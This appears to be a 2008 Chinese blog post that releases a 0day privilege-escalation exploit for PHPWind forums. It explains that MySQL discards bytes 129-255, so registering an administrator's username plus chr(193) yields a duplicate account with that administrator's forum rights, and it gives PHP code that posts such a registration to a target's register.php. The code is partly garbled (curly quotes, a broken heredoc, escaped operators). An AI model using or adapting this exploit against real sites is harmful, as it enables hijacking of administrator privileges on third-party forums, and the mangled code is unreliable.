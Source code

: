 ```yaml
---
title: phpwind管理权限泄露漏洞利用程序PHP版
description: 漏洞原因是Mysql会舍弃没有用处的ASCII129-255，搜了资料也没有找到为什么，PhpWind最大失误不是程序，而是没有把username设为唯一。可以构造一个和某个管理人员名字一样的ID再加上一个无效的ASCII码进行注册，表中会出现二个一样的用户名，而forums.forumadmin字段里存的用户名，这样就可获得全部的前台权限。使用PHP构造的测试代码。
date: 2008-06-03 09:24:16
category: 漏洞信息
tags: ['PHPWind', '0day', '漏洞信息', 'PHP', 'exploit']
post_id: 510
alias: phpwind-usertoattack-0day-PHP-exploit
ViewNums: 5674
---
```


[夜火](/blog/)这2天漏洞真多啊，昨天刚发了[phpwind 0day 管理权限泄露漏洞 + exploit 利用程序](/blog/phpwind-usertoattack-0day-exploit "phpwind 0day 管理权限泄露漏洞 + exploit 利用程序"，里面给的是python的[exploit](/tags/exploit)，今天来了个PHP的

[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)原因是Mysql会舍弃没有用处的ASCII129-255，搜了资料也没有找到为什么，[PhpWind](/tags/PHPWind)最大失误不是程序，而是没有把username设为唯一。

可以构造一个和某个管理人员名字一样的ID再加上一个无效的ASCII码进行注册，表中会出现二个一样的用户名，而forums.forumadmin字段里存的用户名，这样就可获得全部的前台权限。

使用[PHP](/tags/PHP)构造的测试代码。
![phpwind管理权限泄露漏洞利用程序PHP版](http://pic.yupoo.com/sunlei/113935a72c28/w60rcnfj.jpg)
```php
<?php
if (empty($_GET['sub'])) {
    print <<<EOT method="get" action="" <form>
<INPUT name=url>
<INPUT name=regname>
<INPUT type=submit value=提交 name=sub>`

`EOT;
} else {
    extract($_GET);
    $regname .= chr(193);
    $data = array(
        ‘regname’ => $regname,
        ‘regpwd’ => 147852,
        ‘regpwdrepeat’ => 147852,
        ‘regemail’ => ‘llll@Ll.com’,
        'regemailtoall’ => 1,
        ’step’ => 2
    );`

`$url .= ‘/register.php’;
    $includePath = ini_get(’include_path’);
    $includePath .=’;D:wwwpear’;
    ini_set(’include_path’, $includePath);
    include(’HTTP/Client.php’);
    $http = new HTTP_Client();
    var_dump($http-&gt;post($url, $data));
}
```

作者：yuehei
来源：yuehei 两点之间


